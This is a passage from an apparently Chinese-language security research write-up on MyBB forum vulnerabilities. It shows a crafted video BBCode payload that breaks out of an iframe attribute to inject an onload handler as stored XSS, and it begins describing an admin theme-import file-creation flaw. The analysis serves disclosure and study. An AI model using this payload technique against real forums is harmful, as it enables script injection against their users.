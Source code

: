 
最后id会经过一次htmlspecialchars_uni，然后生成模板。
```
$id = htmlspecialchars_uni($id);

eval("\$video_code = \"".$templates->get("video_{$video}_embed", 1, 0)."\";");
return $video_code;
```
当然这并不影响到我们上面的内容。

到此为止我们的内容变成了
```
<iframe width="560" height="315" src="//www.youtube.com/embed/[url]onload=alert();//[/url]" frameborder="0" allowfullscreen></iframe>
```

紧接着再经过对`[url]`的处理，上面的内容变为

```
<iframe width="560" height="315" src="//www.youtube.com/embed/<a href="http://onload=alert();//" target="_blank" rel="noopener" class="mycode_url">http://onload=alert();//</a>" frameborder="0" allowfullscreen></iframe>
```

我们再把前面的内容简化看看，链接由
```
[video=youtube]http://test/test#[url]onload=alert();//[/url]&amp;1=1[/video]
```
变成了
```
<iframe src="//www.youtube.com/embed/<a href="http://onload=alert();//"..."></iframe>
```

由于我们插入在`iframe`标签中的href被转变成了`<a href="http://onload=alert();//">`, 由于双引号没有转义，所以iframe的href在a标签的href中被闭合，而原本的a标签中的href内容被直接暴露在了标签中，onload就变成了有效的属性！

最后浏览器会做简单的解析分割处理，最后生成了相应的标签，当url中的链接加载完毕，标签的动作属性就可以被触发了。

![image.png-118kB][3]

## 管理员后台文件创建漏洞

在Mybb的管理员后台中，管理员可以自定义论坛的模板和主题，除了普通的导入主题以外，他们允许管理员直接创建新的css文件，当然，服务端限制了管理员的这种行为，它要求管理员只能创建文件结尾为`.css`的文件。

```
/admin/inc/functions_themes.php line 264

function import_theme_xml($xml, $options=array())
{
    ...
	foreach($theme['stylesheets']['stylesheet'] as $stylesheet)
    {
    	if(substr($stylesheet['attributes']['name'], -4) != ".css")
    	{
    		continue;
    	}
    	...

```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2sqg4mfyp2gxvzkgso6ukbpf/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2djx25qc7zk91sre0cb57qpa/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1vzl0syw0azoyze1eyjswdj6/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/x21og8j9jusptv8jydinfwsi/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dmab7neitnrhhc9tz6vsg5kp/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6hb80yi92z4d8qw6jr84ddr8/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9ymykvc2nkw2iyrrcglu6mbj/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/534dh1kbms7bj74nd9kj1gsv/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kbvn6wytobvzdkdxsf7kt1g3/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hg8teug35kvvqidni2yp3wwl/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/92kjt8109dfzko2q6w7dwxh9/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/b20kmnra0fwqj0jmd5evy1d1/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/534dh1kbms7bj74nd9kj1gsv/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6ulzp7tspenjxkw6736kp67y/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/02hprp4c9vbokdj0p3lczilz/image.png